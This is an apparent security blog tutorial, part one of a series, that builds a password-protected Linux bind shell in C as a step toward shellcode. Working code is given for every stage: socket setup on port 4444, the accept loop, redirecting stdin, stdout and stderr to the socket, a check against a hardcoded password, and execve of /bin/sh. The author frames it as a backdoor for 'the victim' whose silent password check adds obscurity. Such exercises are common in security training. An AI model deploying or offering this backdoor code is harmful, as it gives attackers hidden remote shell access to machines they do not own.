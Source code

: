 ```yaml
---
title: "Writing a password protected bind shell in C"
date: 2021-02-02
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.
To accomplish this goal, we need to take this process through 3 parts:
Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.
Secondly, the C code needs to be ported to x86_64 Assembly code.
Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.
This blog post will consist of two parts:
Part 1 - Writing a password protected bind shell in the C Programming Language
Par 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode
 PART 1 - Writing a password protected bind shell for Linux in C
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.
What is a Bind Shell?
A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.
Creating the Bind Shell
In the process of creating a bind shell, we will be stepping through 7 stages:
Creating a new socket
Binding the newly created socket to a port
Listen for incoming connections on the newly created socket
Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.
Wait for input (password) to be received and compare it against the correct password string
Spawn the shell, if password is correct
So let's get started in coding out the 7 stages.
Stage 1 - Creating a new socket
The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```C
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}
```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. Referring to the man page for socket, it requires 3 arguments:
Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)
Communication Type - We will use SOCK_STREAM (TCP)
The third argument does not concern us so we will only pass 0

```C
sock = socket(AF_INET, SOCK_STREAM, 0);
```

The return value for the above syscall will be a file descriptor for the new socket.
Stage 2 - Binding the newly created socket to a port
In this step we will assign an address to the newly created socket. We will use the bind syscall for this. The bind syscall again takes 3 arguments:
The socket to bind to - We will use our new socket "sock"
Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.
Length of the data structure passed in argument 2. This was declared during the skeleton code stage.

```C
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                     //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
```

Stage 3 - Listen for incoming connections on the newly created socket
The listen syscall accepts 2 arguments:
File descriptor of new socket in Stage 1
Backlog - Maximum number of pending connections in the queue

```C
listen(sock, 2);
```

Stage 4 - Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
For this stage we will wait for connections on our newly created socket, using the accept syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.
The accept syscall takes 3 arguments:
The socket we are listening on
Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. 
Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code.

```C
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
```

The return value of the accept syscall is a new file descriptor pointing to the newly created socket.
Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities
For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the dup2 syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.

```C
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
```

Stage 6 - Wait for input (password) to be received and compare it against the correct password string
Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the read syscall.
The read syscall accept 3 arguments:
File descriptor of our newly created socket
Buffer - was assigned at the variables section of the code
Number of bytes to read from the file descriptor into the buffer
We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.

```C
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
```

Stage 7 - Spawn the shell, if password is correct
So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the execve syscall, as specified in the variables section.
The execve syscall executes a program using:
Pathname of the executable or script to run
A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable
Environmental variables for use by the program - We set this to NULL as we are not concerned with this

```C
execve(arguments[0], &arguments[0], NULL);
```

Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.
The code for the password protected bind shell can be found here.
I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better.
In PART 2 we will be discussing how to port all of the above to x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 
